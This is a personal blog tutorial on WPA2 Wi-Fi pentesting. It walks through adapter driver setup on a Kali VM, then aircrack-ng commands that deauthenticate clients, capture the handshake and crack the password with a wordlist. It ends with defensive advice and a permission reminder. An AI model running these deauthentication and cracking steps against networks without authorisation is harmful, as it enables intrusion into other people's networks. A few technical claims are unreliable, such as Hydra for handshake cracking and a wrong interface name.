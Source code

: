 ```yaml
---
title: Basic Wi-Fi Pentesting for WPA2
image: wificap.png
date: 2024-12-29 12:00:00 
categories: [pentesting, WiFi]
tags: [pentesting,WiFi]
---
```


Understanding how to protect networks involves knowing how a malicious user might gain access to them. As I’ve been diving deeper into computer networking, this has been a fascinating aspect to explore. Wi-Fi is ubiquitous in places like coffee shops, airports, and other public spaces. However, connecting to these public or private networks can expose you to potential security vulnerabilities.

Malicious users with the right knowledge can craft specially designed packets using devices that are readily available to anyone and gain access to your data. Learning how this process works not only deepens your understanding of Wi-Fi and networking but also helps you implement additional layers of digital protection and privacy.

### Items Needed
1. **Linux** - Or generally an OS that can run `Aircrack-NG` in my case I usually run windows so I will create a Kali-Linux VM via VMWare Workstation Pro (*which is now free*). *Important Note: WSL cannot be used since it does not provide direct access to hardware in a way that we need for Wi-Fi pentesting*.
2. **Wi-Fi Adapter** - Specifically a Wi-Fi adapter that supports `monitor` and `injection` mode. **Monitor** mode allows a Wi-Fi adapter to capture all traffic on a wireless channel. **Packet injection** is the ability to send custom-crafted packets into a wireless network. I am using an **Alfa AWUS036ACS** which can be bought on Amazon [here](https://www.amazon.com/dp/B0752CTSGD/ref=sspa_dk_offsite_brave_1?psc=1&aaxitk=4014b99b16b075863f0b3b6447408f29&tqtoken=AgR4Y9PWIXUukaBjv-op0zX0-SyxVxeyoK5BVfrhRLVjmJ8AGgABAAlyZWNpcGllbnQAC0FtYXpvbkFkc1RRAAEAEWF3cy1rbXMtaGllcmFyY2h5ACRiM2NlMjE3OS0wMzJhLTQ5NTAtOWFlZC00MTczZDMxZmNhMmEAXLjXqg3ReSo3HdyIoFDbgpTJYjTQnGoKYpYA-o7tK8nXMwFE6ZdgvB9GW5UInNQKsTpnnPhDqrDmHkr7fkpb37WKo134WKgmbxvTagN2O9jrPE-U4n_WuHZ4qOWnAgAAEAC5voq23nnjYvblpUf7EksMhdrCtA8am7IHl77pRCHxOVJdacwMRdS7jebcEjcKBhv_____AAAAAQAAAAAAAAAAAAAAAQAAABrOEjddTsQ7KAZBhLRM7jfCddHAIACOzguyfylRcIHLhffW7MCI8RjR2-I=).

### Getting Linux Running

To get the Kali Linux distribution running on my Windows OS machine, I created an account with VMWare and downloaded [VMWare Workstation Pro](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion).

Next, I downloaded the Kali Linux VMWare `.iso` file from the official Kali Linux site [here](https://www.kali.org/get-kali/#kali-virtual-machines) and used it to create a virtual machine. I won’t go into the specific steps for this, as there are numerous tutorials and videos available online to guide you through the process.

### Configuring Drivers

Once the virtual machine is set up and running, and you’ve logged into Kali, you’ll notice that when the Wi-Fi adapter is plugged in, you’ll have the option to choose where it should be connected. Select the `virtual machine` or `linux` option.

![VM Ware Connection](VMwareconnection.png)

However, once the device is connected and you open the terminal to execute the `iwconfig` command (which displays connected wireless devices), you’ll see no wireless interfaces listed. This happens because the necessary drivers for the Alfa Wi-Fi adapter are not yet installed.

![Iwconfig Command](iwconfig.png)
*iwconfig command*

**Steps to Configure Drivers**
1. `sudo apt update && sudo apt upgrade`- Should be the first thing done on any fresh Linux install, ensures software is up-to-date.
2. `sudo apt dist-upgrade -y` - Additional update checks, after this is done **reboot** the VM.
3. `sudo apt install realtek-rtl88xxau-dkms` - Downloads the drivers for the chipset used by the Wi-Fi adapter itself.
4. `git clone https://github.com/aircrack-ng/rtl8812au` - Downloads additional drivers for the Wi-Fi adapter from github. After this, `CD` to the directory then use the `make` command then the `make install` command which will compile the drivers so it can be installed.
5. `sudo make install` - From the same directory as step 4.
6. Unplug and replug the Wi-Fi adapter and we will now see the adapter show when typing the `iwconfig` command. We are now ready to begin.

![alt text](wlan0.png)

### High-Level Wi-Fi Pentesting Process for WPA2
To successfully gain access to a private Wi-Fi network, we must first locate the network and ensure we are physically close enough to it. Once the network is discovered, we will use the Wi-Fi adapter to inject *deauthentication* packets into the network's traffic, forcing connected clients to disconnect.

After disconnecting the clients, we will *monitor* for clients reconnecting and use a network protocol analyzer like **Wireshark** to capture and analyze the traffic during the reconnection process. This allows us to locate the WPA2 4-way handshake packets, where the network shares a hashed version of the Wi-Fi password. The **4-way handshake** involves exchanging messages to verify the pre-shared key (PSK) and generate a unique session key (Pairwise Transient Key or PTK) for encrypting data, while ensuring the actual PSK is never transmitted in clear text.

Hence why we will capture the hash and crack it using password-cracking techniques, combined with using a wordlist like `rockyou.txt` and a Linux tool such as `Hydra` to attempt to decrypt the hash.


##### Why only WPA2 and below?
It is important to note that this process is possible for Wi-Fi networks using WPA2 level security and below. It does not work for WPA3 since it uses **SAE** or *simulataneous authentication of equals* also known as the dragon fly key exchange. In WPA2 and below the PSK (Pre-shared key) is exposed as a hash.

![WPA2 4 Way Handshake](4way.png)
*WPA2 4-Way Handshake*

WPA3 does not directly use the PSK for authentication, instead a unique **session key** is used for every connection attempt. This makes WPA3 resistant to the offline brute-force and dictionary attacks that were possible in WPA2.

### The Actual Commands Needed
1. We are using **airmon-ng** to enable monitor mode so we must first check for conflicting processes that can interupt this process so use the command `sudo airmon-ng check kill`. 

2. Enable monitor mode via the command `sudo airmon-ng start wlan0`. `Wlan0` is the interface as `eth0` is used for internet connectivity and not monitor mode and injection, so technically we can still ping google.com at this point. 
![alt text](startwlan.png)

3. Disover nearby networks via the command `sudo airodump-ng wlan0mon`. Take note of the **BSSID (MAC address)** and channel of the target network.

4. Capture the handshake via the command `sudo airodump-ng --bssid [BSSID] -c [Channel] -w [capture-file] wlan0`. Replace `[BSSID]` with the target network's BSSID, `[Channel]` with the network's channel number, and `[capture-file]` with the desired filename for capturing the packets.

At this point we will wait for a client to reconnect and trigger the handshake.

5. To force clients to reconnect to the network so we do not have to wait we will forcefully deauthenticate clients. Use the command `sudo aireplay-ng --deauth 10 -a [BSSID] wlan0`, again replace the following information in the [] as necessary. 

6. To confirm the handshake is captured ensure it is shown in the specific network's monitoring section, shown below. 
![alt text](wpahandshake.png)

7. Open the `.cap` file using the command `wireshark [.cap file name] &`, from here the packets can be inspected but to actually crack the hash from the handshake use the command `sudo aircrack-ng [capture-file].cap -w rockyou.txt`. 

Now if the password is in the wordlist `aircrack-ng` will find it and display the WPA2 password in the terminal. If the password isn't found, we will need to try a different wordlist or approach (e.g., custom wordlists, more advanced cracking techniques) that will be covered in future articles.

![alt text](keyfound.png)
*Wi-Fi Password is spiderman*

#### The Final Message 
Please use strong encryption when possible (WPA3).

Please use strong passwords that have a mix of uppercase letters, lowercase letters, numbers, and special characters. 

WiFi hacking should only be performed on networks you have explicit permission to test, ensuring that all actions are ethical and legal under applicable laws and regulations.

Hope you enjoyed the first pentesting article, more to come!
